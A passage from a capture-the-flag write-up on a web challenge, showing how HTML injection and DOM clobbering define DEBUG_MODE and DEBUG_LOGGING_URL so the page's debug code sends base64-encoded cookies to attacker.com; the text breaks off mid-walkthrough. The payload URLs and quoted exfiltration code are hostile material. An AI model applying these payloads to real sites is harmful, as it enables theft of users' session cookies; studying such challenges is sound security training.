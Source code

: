 * This Javascript Loads with we Visit, `/personalize?image=<url>`

<img src="https://i.imgur.com/PMybUaS.png"></img>


## Exploit:

```js
if (DEBUG_MODE) {
        // In debug mode, send the image url to our debug endpoint for logging purposes.
        // We'd normally use fetch() but our CSP won't allow that so use an <img> instead.
        document.getElementById('body').insertAdjacentHTML('beforeend', `<img src="${DEBUG_LOGGING_URL}?auth=${btoa(document.cookie)}&image=${btoa(imgSrc)}">`)
    }
```

* In the Above Code, `DEBUG_MODE` is Not Defined. 

<img src="https://i.imgur.com/jSALZmW.png"></img>

* CSP is Set to defualt-src: 'self'. So, the Javascript files hosted in the server itself only work.

* So, Now we Have HTML injection and a Undedined variable.
* In Order to Exploit this, we need to  Overwrite the Undefined Variable `DEBUG_MODE` and Injecting our own value into `DEBUG_MODE`. 

* By Using  `DEBUG_MODE` as ID, We can create a variable `DEBUG_MODE`.

Payload:
```
https://wsc-2022-web-2-bvel4oasra-uc.a.run.app/personalize?image=https://google.com/"><a id="DEBUG_MODE">

```
<img src="https://i.imgur.com/naI2HH8.png"></img>

* We successfully Defined `DEBUG_MODE`, which is Before Undefined. Now, the Above error says that, `DEBUG_LOGGING_URL` is Undefined. 

* Lets Define that!

Payload:
```
https://wsc-2022-web-2-bvel4oasra-uc.a.run.app/personalize?image=https://google.com/"><a id="DEBUG_MODE"><a id="DEBUG_LOGGING_URL" href="https://attacker.com">
```
* Here, Href is Used to set a value for the 
`DEBUG_LOGGING_URL`.

<img src="https://i.imgur.com/lWnC7G7.png"></img>

* No Errors in Javascript Console!!

* Upon Looking the Network Tab,
